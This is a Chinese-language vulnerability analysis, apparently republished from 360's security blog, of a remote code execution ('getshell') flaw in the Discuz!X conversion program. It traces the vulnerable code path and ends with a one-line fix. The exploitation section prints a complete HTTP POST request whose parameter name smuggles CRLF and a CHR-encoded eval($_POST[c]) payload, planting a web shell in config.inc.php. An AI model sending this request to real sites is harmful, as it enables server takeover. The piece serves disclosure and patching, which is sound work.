








# Discuz!X 升级/转换程序 GETSHELL 漏洞分析

2014/02/14 18:47 | [360 网站安全中心](http://drops.wooyun.org/author/360 网站安全中心 "由 360 网站安全中心 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x01 漏洞分析

* * *

漏洞的根源在代码注释中出现换行，导致代码执行，流程如下:

### 0x0101 首先，从 index.php 第 30 行跟入。



### 0x0102 do_config_inc.php 的第 37 行，跟入这个 save_config_file()函数。



### 0x0103 gobal.func.php 第 624 行，跟入这个 getvars()函数。



### 0x0104 继续跟入 buildarray()这个函数



### 0x0105 漏洞出现在 598 行，这个$newline 的问题。



这里因为$key 可控，所以$newline 可控，当$newline 出现
或
时，导致 BBB 可以作为 php 代码执行。如图所示。



## 0x02 漏洞利用

* * *

可以构造如下请求：

```
POST /DZ2/convert/ HTTP/1.1
Host: 192.168.52.129
Proxy-Connection: keep-alive
Content-Length: 925
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Origin: null
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/29.0.1547.57 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip,deflate,sdch
Accept-Language: zh-CN,zh;q=0.8

a=config&source=d7.2_x2.0&submit=yes&newconfig%5Btarget%5D%5Bdbhost%5D=localhost&newconfig%5Baaa%0D%0A%0D%0Aeval%28CHR%28101%29.CHR%28118%29.CHR%2897%29.CHR%28108%29.CHR%2840%29.CHR%2834%29.CHR%2836%29.CHR%2895%29.CHR%2880%29.CHR%2879%29.CHR%2883%29.CHR%2884%29.CHR%2891%29.CHR%2899%29.CHR%2893%29.CHR%2859%29.CHR%2834%29.CHR%2841%29.CHR%2859%29%29%3B%2F%2F%5D=localhost&newconfig%5Bsource%5D%5Bdbuser%5D=root&newconfig%5Bsource%5D%5Bdbpw%5D=&newconfig%5Bsource%5D%5Bdbname%5D=discuz&newconfig%5Bsource%5D%5Btablepre%5D=cdb_&newconfig%5Bsource%5D%5Bdbcharset%5D=&newconfig%5Bsource%5D%5Bpconnect%5D=1&newconfig%5Btarget%5D%5Bdbhost%5D=localhost&newconfig%5Btarget%5D%5Bdbuser%5D=root&newconfig%5Btarget%5D%5Bdbpw%5D=&newconfig%5Btarget%5D%5Bdbname%5D=discuzx&newconfig%5Btarget%5D%5Btablepre%5D=pre_&newconfig%5Btarget%5D%5Bdbcharset%5D=&newconfig%5Btarget%5D%5Bpconnect%5D=1&submit=%B1%A3%B4%E6%B7%FE%CE%F1%C6%F7%C9%E8%D6%C3 
```

发送这段请求直接 getshell，恶意代码写入/convert/data/config.inc.php 文件当中，如图所示。



## 0x03 关于修复

* * *

需要在 global.func.php 文件的 buildarray 函数中过滤掉$key 中的非字母、数字及下划线字符，即添加代码如下：

```
$key = preg_replace("/[^w]/","", $key);

```

如图所示。



（以上分析仅供学习交流，各 DZ！X 系列站长勿忘修复！）

以上为 360 网站安全中心博客文章，原文：[`loudong.360.cn/blog/view/id/15`](http://loudong.360.cn/blog/view/id/15)

版权声明：未经授权禁止转载 [360 网站安全中心](http://drops.wooyun.org/author/360 网站安全中心 "由 360 网站安全中心 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [攻击 JavaWeb 应用[2]-CS 交互安全](http://drops.wooyun.org/tips/164)
*   [攻击 JavaWeb 应用[9]-Server 篇[2]](http://drops.wooyun.org/papers/869)
*   [常见的 HTTPS 攻击方法](http://drops.wooyun.org/tips/4403)
*   [安全科普：Waf 实现扫描器识别 彻底抵挡黑客扫描](http://drops.wooyun.org/tips/730)
*   [XSS 挑战第二期 Writeup](http://drops.wooyun.org/papers/938)
*   [Clickjacking 简单介绍](http://drops.wooyun.org/papers/104)